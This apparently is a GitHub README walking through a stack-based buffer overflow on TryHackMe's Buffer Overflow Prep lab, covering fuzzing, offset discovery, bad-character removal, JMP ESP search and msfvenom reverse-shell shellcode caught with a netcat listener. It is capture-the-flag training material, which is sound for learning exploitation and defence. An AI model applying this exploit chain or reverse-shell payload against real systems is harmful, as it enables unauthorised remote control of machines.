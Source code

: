# Stack Based Buffer Overflow Walkthrough
I will be using `Tib3rius's Buffer Overflow Prep on TryHackMe` for practise.
Link to room: https://tryhackme.com/room/bufferoverflowprep

## Mona Configuration
Run the following command on Immunity Debugger to make the process easier:
```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing
1. Open the application you are targetting on Immunity Debugger and hit start
2. Run `fuzzer.py` to identify the point that causes the application to crash
3. Note down the crash point of the application

## Offset
To identify the offset to the EIP address, we can generate a string with the pattern_create module from Metasploit.
Add 40 to the crash point found. 
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash point + 40]
```
Copy the output and place it in the payload variable of `exploit.py`. Run the script and it should crash the application again.
Change the distance to the same length of the pattern you created and run the command on Immunity Debugger:
```
!mona findmsp -distance  [crash point + 40]
```
Mona will display the output of the command, or click "Window" menu and then "Log data" to view it.
Find a line that states `EIP contains normal pattern : ... (offset XXXX)`
Note down the offset and make the following changes to `exploit.py` script:
1. Update the offset variable
2. Set the payload variable to an empty string
3. Set the retn variable to `BBBB`

Restart the application in Immunity Debugger and run the modified script.
The EIP register should now be overwritten with B's: `42424242`

## Finding Bad Characters
Using Mona, we can generate a byte array and exclude the null byte,`\x00`, by default. Execute the following command:
```
!mona bytearray -b "\x00"
```
Then, follow these steps:
1. Execute `badchars.py` to generate a string of bad chars from `\x01 to \xff`.
2. Update `exploit.py` and set the payload variable to the string created.
3. Restart the application in Immunity Debugger and run the script again.
4. Copy the address to which the ESP register points and use it in the following command:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A mona Memory comparison results window will appear indicating the characters that are different in memory to what they are in the generated `bytearray.bin` file.
Not all of these might be bad characters as sometimes:
1. Bad characters cause the next byte to get corrupted
2. Bad characters cause the rest of the string to get corrupted

Make a note of the bad characters and do the following:
1. Generate a new byte array in mona, specifying these new bad characters along with `\x00`
2. Remove the new bad characters in the payload variable in exploit.py

Restart the application in Immunity Debugger and run the script again. Repeat the process until the results status returns `Unmodified`. This indicates that there are no more bad characters.

## Finding a JMP point

Run the following command in Immunity Debugger with the application running or in a crashed state.
Ensure that all the bad characters identified are added in.
```
!mona jmp -r esp -cpb "\x00"
```
The results should display in the 'Log data' window. Choose an address and update it in `exploit.py` by setting the `retn` variable to the address written backwards.
For example, if the address found is `\x01\x02\x03\x04`, write `\x04\x03\x02\x01` in `exploit.py`.

## Generate a Payload
We can finally generate our shellcode excluding the bad characters found:
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
Insert the string added to the payload variable in `exploit.py` in the following format:
```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
Ensure to place an open bracket at the start, and a close bracket at the end.

## Prepend NOPs
An encoder was used to generate the payload. Thus, some space in memory is needed for the payload to unpack itself. Ensure this happens by assigning the following string to the padding variable:
```
padding = "\x90" * 16
```

## Exploit
1. Start a Netcat listener on Kali
2. Restart the application in Immunity Debugger
3. Run `exploit.py`

You should catch a reverse shell!
{"mode":"full","isActive":false}
